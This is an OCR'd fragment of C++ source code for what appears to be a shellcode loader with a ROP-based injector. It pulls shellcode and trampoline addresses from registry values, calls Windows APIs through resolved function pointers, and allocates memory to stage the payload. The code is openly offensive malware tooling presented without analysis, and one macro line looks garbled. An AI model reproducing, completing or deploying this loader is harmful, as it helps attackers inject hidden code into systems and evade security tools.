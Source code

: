 ```cpp
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &shellcodeAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == shellcodeAddress) {
            return EXIT_FAILURE;
        }
    }

    // Recovering Size of Shellcode Written in the DLL
    DWORD shSize;
    value = (LPCTSTR)shsValue;
    dwSize = sizeof(shSize);

    RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &shSize, &dwSize);

    // Recovering Address of Trampoline Written in the DLL
    ULONG64 trampolineAddress = 0;
    dwSize = sizeof(trampolineAddress);
    value = (LPCTSTR)trpValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &trampolineAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == trampolineAddress) {
            return EXIT_FAILURE;
        }
    }

    // We also release the mutex
    ReleaseMutexFunc(hMutex);

    // We need to close the key handle
    RegCloseKeyFunc(hKey);

    // Allocating space on the heap
    UINT nPages = 0;
    UINT nBytes = 0;
    while (nBytes <= shSize) {
        nBytes += 4096;
        nPages++;
    }
    DWORD rxMemoryRegionSize = (nPages + 1) * PAGE_SIZE * 4;
    DWORD ropInjectorOffset = (nPages + 1) * PAGE_SIZE * 2;

#ifdef _DEBUG
    printfFunc("Shellcode size: %u\n", shSize);
    printfFunc("RX memory size: %u\n", rxMemoryRegionSize);
#endif

#ifdef USE_ISOLATED MEMORY
    // Using isolated memory for ROP injector
    // We allocate memory for the shellcode, then allocate memory for the ROP
    LPVOID address = VirtualAllocFunc(NULL, shSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
#else    
    // Using shared memory for ROP injector
    // We allocate a bigger chunk of memory for the shellcode
    // so we can use the same to store the ROP injector
    LPVOID address = VirtualAllocFunc(NULL, rxMemoryRegionSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
#endif

#ifdef _DEBUG
    if (NULL == address) {
        printfFunc("Couldn't allocate address\n");
        return EXIT_FAILURE;
    }
```